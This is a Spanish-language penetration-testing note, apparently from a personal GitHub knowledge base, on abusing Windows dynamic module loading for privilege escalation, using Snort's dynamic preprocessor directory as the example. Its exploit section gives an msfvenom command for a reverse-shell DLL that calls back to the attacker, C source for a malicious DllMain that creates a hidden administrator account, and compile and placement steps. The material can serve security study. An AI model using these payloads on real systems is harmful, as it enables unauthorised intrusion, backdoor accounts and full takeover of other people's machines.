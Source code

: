 # Modules & Dynamic Modules

Un *module* (*Módulo*) en Windwos generalmente se refiere a un archivo que contiene código ejecutable y recursos que epueden ser utilizados por un programa. Los tipos más comunes de móodulos son:

- **Ejecutables** (**.exe**): Archivos que contienen un programa completo que puede ser ejecutado por el sistema operativo.
- **Librerías de Enlace Dinámico** (**.dll**): Archivos que contiene código y datos que pueden ser utilizados por múltiples programas simultáneamente.

Los módulos permiten que el código sea compartido entre diferentes programas, lo que reduce la duplicación de código y facilita el mantenimiento.

Por otro lado, los *Dynamic Modules* (*Módulos dinámicos*) son módulos que pueden ser cargados en tiempo de ejecución, el lugar de estar vinculados estáticamente en el momento de la compilación. Este concepto se aplica principalmente a las *DLLs* (*Dynamic Link Libraries*). En otras palabras, una aplicación puede decidir en tiempo de ejecución si necesita cargar un módulo específico y puede descargarlo cuando ya no lo necesita.

----
# Abusing Dynamic Modules

El *abuso de módulos dinámicos* es una técnica que aprovecha cómo las aplicaciones cargan dinámicamente bibliotecas de enlace dinámico (DLLs) o módulos para inyectar código malicioso o sustituir módulos legítimos. Esto puede permitir a un atacante ejecutar código con privilegios elevados o acceder a recursos restringidos.

Cuando una aplicación necesita una funcionalidad adicional o recursos que no están compilados en el ejecutable principal, puede cargar módulos dinámicos (Como DLLs) en tiempo de ejecución, en este momento, Windows sigue una secuencia de rutas específicas para buscar el archivo necesario. Si un atacante logra colocar una DLL maliciosa en uan de las ubicaciones que se buscan antes que la DLL legítima, la aplicación puede cargar y ejecutar código malicioso. (Esto se lo conoce como *DLL Hijacking*)

Pero, en algunos casos, existen herramientas que si revisamos su manual de uso, podemos encontrarnos con secciones que hacen alución a *Dynamic Modules load*, donde nos indican el funcionamiento y uso de la posibiilidad de la carga de módulos dinámicos, lo que nos puede abrir la ventana de explotación creando y cargando nuestro propio *dynamic module* sin necesidad de secuestrar uno (*DLL Hijacking*). 

-----
# Exploit

La explicación de explotación de está técnica será dada con el conocido software *Snort*, el cual es un sistema de detección de intrusiones a nivel de red (IDS - Intrusion Detection System) de código abierto.

En este caso podríamos estar enfrentandonos a un sistema que hace uso de este software y podríamos pensar en hacer una breve búsqueda del manual de uso de está misma para visualizar si existe algun apartado referido a la *carga de módulos dynámicos*.

Tras llevar a cabo esta acción, nos encontramos en el manual de uso, sección "Dynamic Modules":

![[dynamic_module_injection_software_manual_example.png]]

Podemos ver que nos indica las diferentes maneras de carga de módulos dinámicos que lleva a cabo esta herramienta, tanto para los `preprocessor`, la`engine` y  la `detection`, y así mismo vemos que tiene la opción de que se le indique una *.dll* en particular (*file*) o un directorio en el cual encontraremos múltiples DLLs (*shared library path*). En este caso podríamos buscar el archivo de configuración de esta herramienta (Archivo en el cual se configuran estas "opciones" - *snort.conf*).

```bash
cat snort.conf | grep -i dynamicpreprocessor
```

Tras la ejecución del comando anterior, podríamos ver un stdout tal que así:

```bash
dynamipreprocessor directory C:\Snort\lib\snort_dynamicpreprocessor
```

Tras este output, podemos entender que la carga de módulos dinámicos para los `preprocessor` se esta haciendo a nivel de *directorio* y este esta configurado en `C:\Snort\lib\snort_dynamicpreprocessor`, donde en caso de disponer de permisos de escritura, podríamos crear una *.dll* maliciosa para que a la hora de la carga de estas DLLs, se carge nuestra DLL maliciosa y ejecute la tarea que hayamos indicado. 

Facilmente podríamos crear una DLL maliciosa con la herramienta `msfvenom` para obtener una simple **reverse shell**:

```bash
msfvenom -p /windows/x64/shell_reverse_tcp LHOST={our_IP} LPORT={our_PORT} -f dll -a x64 -o malicious.dll
```

Tras esta ejecución, tendrémos una DLL maliciosa que tras ser cargada dinámicamente por un software, nos enviara una reverse shell a un determinado puerto por nuestra IP de atacante. Es importante tener en cuenta que en sistemas avanzados con alta seguridad, payloads generados por herramientas populares como `msfvenom` pueden ser simplemente detectados, por lo que llevar a cabo este proceso de manera manual podría ser mucho más óptimo, para esto podríamos seguir guías como la de [HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking).

Podemos crear distintas DLLs según el compilador que tengamos, por ejemplo, para compiladores como *x86_64-w64-mingw32-gcc* o *i686-w64-mingw32-gcc* podríamos crear un simple DLL con el siguiente código:

- Archivo `pre_dll.c`
```C
#include <windows.h>
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved){
    if (dwReason == DLL_PROCESS_ATTACH){
        system("cmd.exe /c net user dobliuw dobliuw123! /add; net localgroup administrators dobliuw /add");
        ExitProcess(0);
    }
    return TRUE;
}
```

Una vez creado el archivo, deberemos usar el compilador para crear la DLL:

```bash
x86_64-w64-mingw32-gcc pre_dll.c -shared -o final.dll
```

Una vez realizado esto, tendremos nuestra DLL maliciosa (`final.dll`, por ejemplo) la cual podremos (Siguiendo el ejemplo) mover, copiar, o crear de primeras, en el directorio de nuestro interes (`C:\Snort\lib\snort_dynamicpreprocessor`, por ejemplo). Una vez que esta DLL sea cargada de manera dinámica en proceso de ejecución, se ejecutará el código indicado, donde en caso de que el proceso principal que carga las DLLs (En nuestro ejemplo *Snort*) sea ejecutado por el usuario *Administrator*, estaremos creando un nuevo usuario y agregandolo al grupo de administrators.


